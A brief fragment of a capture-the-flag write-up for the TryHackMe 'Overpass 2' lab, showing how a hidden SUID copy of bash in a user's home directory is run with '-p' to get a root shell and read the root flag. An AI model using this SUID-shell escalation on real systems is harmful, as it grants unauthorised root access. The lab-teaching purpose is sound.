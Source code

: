 ![user](/assets/img/tryhackme/overpass-2/user.png)


<br>
### 3.4 What's the root flag?
There is a copy of bash in James’s home directory.

![bash](/assets/img/tryhackme/overpass-2/bash.png)


```
$ ./.suid_bash -p 
$ cat /root/root.txt
```

![root](/assets/img/tryhackme/overpass-2/root.png)
